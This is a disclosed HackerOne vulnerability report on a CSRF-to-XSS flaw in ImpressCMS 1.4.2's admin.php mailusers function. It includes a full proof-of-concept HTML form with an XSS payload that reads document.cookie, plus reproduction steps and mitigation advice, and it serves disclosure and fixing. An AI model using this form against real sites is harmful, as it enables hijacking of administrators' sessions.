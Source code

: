 # CSRF to XSS in /htdocs/modules/system/admin.php

## Report Details
- **Report ID**: 1096123
- **URL**: https://hackerone.com/reports/1096123
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-05T12:56:32.690Z
- **Disclosed**: 2023-10-14T18:47:43.005Z

## Reporter
- **Username**: d3addog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: impresscms

## Vulnerability Information
## Summary:

The ```memberslist_id``` and ```memberlist_uname[]``` POST parameters in the scenario "/htdocs/modules/system/admin.php" are affected by XSS due to lack of user supplied data filtration. Due to lack of CSRF token verification it is possible for attacker to craft special web page, which will perform request to the vulnerable ImpressCMS application on authorised user behalf, upon visiting it. 

## ImpressCMS branch :

Impress CMS version: 1.4.2
PHP Version: 7.2.24

## Browsers Verified In:

Firefox 85.0

## Steps To Reproduce:

  1) Host a web server with the following page (note that url in form action should be modified with your testing address)

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<YOUR IMPRESS CMS HOST>/htdocs/modules/system/admin.php?fct=mailusers" method="POST">
        <input type="hidden" name="mail&#95;to&#95;group&#91;&#93;" value="2" />
      <input type="hidden" name="mail&#95;lastlog&#95;min" value="" />
      <input type="hidden" name="mail&#95;lastlog&#95;max" value="" />
      <input type="hidden" name="mail&#95;idle&#95;more" value="" />
      <input type="hidden" name="mail&#95;idle&#95;less" value="" />
      <input type="hidden" name="mail&#95;regd&#95;min" value="" />
      <input type="hidden" name="mail&#95;regd&#95;max" value="" />
      <input type="hidden" name="mail&#95;fromname" value="ImpressCMS" />
      <input type="hidden" name="mail&#95;fromemail" value="impress&#64;notexist&#46;notexist" />
      <input type="hidden" name="mail&#95;subject" value="" />
      <input type="hidden" name="mail&#95;body" value="&#123;&#36;smarty&#46;version&#125;" />
      <input type="hidden" name="mail&#95;send&#95;to&#91;&#93;" value="mail" />
      <input type="hidden" name="mail&#95;submit" value="Send" />
      <input type="hidden" name="op" value="send" />
      <input type="hidden" name="mail&#95;start" value="0" />
      <input type="hidden" name="memberslist&#95;id&#91;&#93;" value="asdf&apos;&gt;&lt;&#47;a&gt;&lt;svg&#47;onload&#61;alert&#40;document.cookie&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
  2)  Login to your ImpressCMS application with privileged account
  3) In the same browser open web page from step 1 and click "Submit request"
  4) See the XSS payload fired 

## Suggestions to mitigate or resolve the issue:
Properly sanitise  user input using built-in ```StopXSS``` function. Properly check CSRF token

## Credits
This bug was found as a part of Solar Security CMS Reseach, with https://hackerone.com/d0bby, https://hackerone.com/wezery0, https://hackerone.com/silvereniqma in collaboration. Can you, please, add them to this report?

## Impact

CSRF leading to XSS

## Attachments
- xss_csrf_impress.png
